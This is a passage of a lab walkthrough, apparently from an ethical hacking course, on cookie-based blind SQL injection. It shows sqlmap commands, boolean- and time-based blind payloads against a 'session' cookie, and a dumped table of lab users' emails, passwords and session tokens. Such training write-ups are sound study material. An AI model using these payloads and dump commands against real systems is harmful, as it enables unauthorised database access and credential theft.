 While checking the content length of all the letters we now see that z is the only one that gives us a good length.

Let's try using SQLMap now&#x20;

<figure><img src="../../../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>

paste the '1' request in the file '2' and run it using command line 3

`--level=2`: This option sets the testing level for SQL injection. The testing level ranges from 1 to 5, with 1 being the least aggressive and 5 the most aggressive. In this case, `--level=2` indicates a moderate level of testing aggressiveness. This means that `sqlmap` will perform a more comprehensive and in-depth analysis compared to the default level.

Since we do cookie injection we need level 2

during the attack we get a&#x20;

```
Cookie parameter 'session' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 385 HTTP(s) requests:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 2291=2291 AND 'trQy'='trQy

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 5637 FROM (SELECT(SLEEP(5)))VKDL) AND 'lzSr'='lzSr
```

so let's let SQLMap work for us:&#x20;

```
┌──(root㉿kali)-[/home/kali/Desktop/labs]
└─# sqlmap -r req3.txt --level=2 --dump
```

and eventually:

```
Database: peh-labs
Table: injection0x02
[2 entries]
+---------------------+--------------+----------+----------------------------------+
| email               | password     | username | session                          |
+---------------------+--------------+----------+----------------------------------+
| jeremy@example.com  | jeremy       | jeremy   | 6967cabefd763ac1a1a88e11159957db |
| jessamy@example.com | ZWFzdGVyZWdn | jessamy  | 9dedc6891e2839a791ed37157f1241fe |
+---------------------+--------------+----------+----------------------------------+
```
